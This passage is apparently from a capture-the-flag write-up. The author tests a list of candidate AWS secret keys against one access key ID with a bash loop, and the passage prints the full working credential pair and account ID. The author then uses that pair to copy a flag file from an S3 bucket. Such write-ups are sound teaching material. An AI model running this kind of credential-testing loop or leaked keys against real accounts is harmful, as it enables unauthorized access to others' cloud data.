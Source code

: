 Although this file has a `.py` extension, it seems that it is a bunch of different secret keys and a couple of different key IDs. To figure out which ones are active I made a quick bash script that used the `aws sts get-caller-identity` as a validation:

```bash
keys=(
ZTPR+vSVKCll0qnAZ2SY/rILVqQ672XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ673XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ674XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ675XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ676XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ677XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ678XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ679XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ680XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ681XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ682XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ683XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ684XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ685XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ686XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ687XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ688XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQPg9XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ690XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ691XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ692XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ693XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ694XojnklHwkV
ZTPR+vSVKCll0qnAZ2SY/rILVqQ695XojnklHwkV
)

for k in "${keys[@]}"; do
	AWS_ACCESS_KEY_ID='AKIA4O2LYGCDMOACSJEW' \
	AWS_SECRET_ACCESS_KEY=${k} \
	AWS_REGION=us-east-1 aws sts get-caller-identity
	echo "Done: ${k}"
done
```

All of these fail except one:

```json
{
    "UserId": "AIDA4O2LYGCDBWSOEE5SC",
    "Account": "856467976326",
    "Arn": "arn:aws:iam::856467976326:user/ctf-goldhunter"
}
```
With the matching secret `ZTPR+vSVKCll0qnAZ2SY/rILVqQPg9XojnklHwkV`.

Now that we had the access key and secret, we would again have to start poking around to see what we had access to.
Unfortunately, I don't have a list of everything we tried, but we _eventually_ found the S3 bucket `goldhunter`:

```console
$ AWS_ACCESS_KEY_ID='AKIA4O2LYGCDMOACSJEW' \
AWS_SECRET_ACCESS_KEY='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' \
aws s3 cp s3://goldhunter/flag.txt flag.txt
```

Opening `flag.txt` has the flag!